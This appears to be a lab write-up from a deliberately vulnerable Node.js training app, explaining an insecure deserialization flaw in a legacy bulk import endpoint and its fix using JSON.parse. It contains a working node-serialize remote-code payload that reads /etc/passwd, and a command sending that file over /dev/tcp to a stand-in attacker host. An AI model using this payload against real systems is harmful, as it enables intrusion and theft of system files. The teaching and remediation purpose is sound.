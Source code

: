 # Insecure Deserialization

The `Legacy Bulk Import` feature at http://127.0.0.1:9090/app/bulkproducts?legacy=true does not securely deserialize the data thus allowing remote code execution.

![jse1](/resources/jse1.png)

To execute code we need to provide a serialized object to the server. The object (as shown below) in this case would be a function that uses the `child_process` library to invoke `bash -c -- \"cat /etc/passwd > /dev/tcp/attacker-ip/nc-port\"`. The function is made into an [Immediately Invoked function Expression (IIFE)](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression) by adding `()` to the end of the function

The following input will trigger the vulnerability

```
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

which is the serialized version of

```
var y = {
 rce : function(){
 require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
```

![jse2](/resources/jse2.png)

**Vulnerable Code snippet**

*core/appHandler.js*
```
...
module.exports.bulkProductsLegacy = function (req,res){
	// TODO: Deprecate this soon
	if(req.files.products){
		var products = serialize.unserialize(req.files.products.data.toString('utf8'))
...
```

**Solution**

Since the required feature is to essentially parse a JSON, it can be parsed securely using `JSON.parse` instead.

*core/appHandler.js*
```
...
module.exports.bulkProductsLegacy = function (req,res){
	// TODO: Deprecate this soon
	if(req.files.products){
		var products = JSON.parse(req.files.products.data.toString('utf8'))
...
```

**Fixes**

Implemented in the following files

- *core/appHandler.js*

The fix has been implemented in this [commit](https://github.com/appsecco/dvna/commit/624a4ee88b3af804271d183f2921448851ddbfff)

**Recommendation**

- Use secure and recommended ways to implement application features
- Ensure that potentially vulnerable legacy features are't accessible

**Reference**

- <https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization>
- <https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>
